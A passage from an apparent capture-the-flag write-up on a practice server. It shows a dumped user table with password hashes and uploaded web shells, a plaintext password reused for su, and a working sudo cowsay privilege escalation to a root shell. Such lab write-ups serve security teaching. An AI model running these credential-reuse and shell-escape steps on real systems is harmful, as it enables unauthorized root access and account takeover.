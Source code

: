 ```
| 10 | rat          | rat      | rat      | d285ed4b87f365a2273842b0208a60c8 | NULL                                            | NULL       |    0 | 2021-08-23 20:56:2
0 | NULL                |
| 11 | bots         | bots     | bots     | 2241bbfb8e26f6de627e38a1bbcdc9a9 | uploads/1629752160_webshell.php                 | NULL       |    0 | 2021-08-23 20:56:3
3 | NULL                |
| 12 | ratty        | rattyu   | ratty    | d285ed4b87f365a2273842b0208a60c8 | uploads/1629752220_Capture.PNG                  | NULL       |    0 | 2021-08-23 20:57:4
7 | NULL                |
| 13 | bots         | bots     | bots     | 21f1a6f87b2137da269ccb2e3030889a | uploads/1629752280_webshell.php                 | NULL       |    0 | 2021-08-23 20:58:1
8 | NULL                |
| 14 | bots         | bots     | bots     | 21f1a6f87b2137da269ccb2e3030889a | uploads/1629752280_webshell.php                 | NULL       |    0 | 2021-08-23 20:58:2
5 | NULL                |
| 15 | ratty        | ratty    | ratty    | 289462fcc025ce66f113ac73a13131cf | uploads/1629752400_God.png                      | NULL       |    0 | 2021-08-23 21:00:5
8 | NULL                |
| 16 |              |          | ratty    | d285ed4b87f365a2273842b0208a60c8 | NULL                                            | NULL       |    0 | 2021-08-23 21:06:0
7 | NULL                |
| 17 | Musa         | saminu   | muzec    | bc05d7cbe414aa0f785d54525c2f822d | uploads/1629994260_shell.php                    | NULL       |    0 | 2021-08-26 14:13:3
9 | 2021-08-26 16:11:48 |
| 18 | Musa         | Saminu   | muzec    | bc05d7cbe414aa0f785d54525c2f822d | uploads/1629987780_muzec.png                    | NULL       |    0 | 2021-08-26 14:23:1
0 | NULL                |
+----+--------------+----------+----------+----------------------------------+-------------------------------------------------+------------+------+-------------------
```

I was able to dump some users credentials but the one that i found interesting is;

```
|  2 | Jane         | Doe      | abcctf   | zburhWD2B7PqTx6sVfVszBE3KhgCqT   | uploads/1624240500_avatar.png                   | NULL       |    1 | 2021-01-20 14:02:3 
```

We have abcctf running on the system also let try it using `su abcctf` with the password .

![image](https://user-images.githubusercontent.com/69868171/130999074-2d575a58-ca00-4037-a7de-0279921141fe.png)

We are in hahhahahaha and also we can run sudo.

![image](https://user-images.githubusercontent.com/69868171/130999177-8ee78ed2-d9e0-4391-965e-5432a5ad99a4.png)

We have the first part of the flag now let root it.

### ROOT

![image](https://user-images.githubusercontent.com/69868171/131000717-969b0859-b681-4f3d-9b2a-fb4830a5f28c.png)

```
abcctf@vps:~$ sudo -l
Matching Defaults entries for abcctf on vps:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User abcctf may run the following commands on vps:
    (root) /usr/games/cowsay
abcctf@vps:~$ TF=$(mktemp)
abcctf@vps:~$ echo 'exec "/bin/sh";' >$TF
abcctf@vps:~$ sudo /usr/games/cowsay -f $TF x
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
```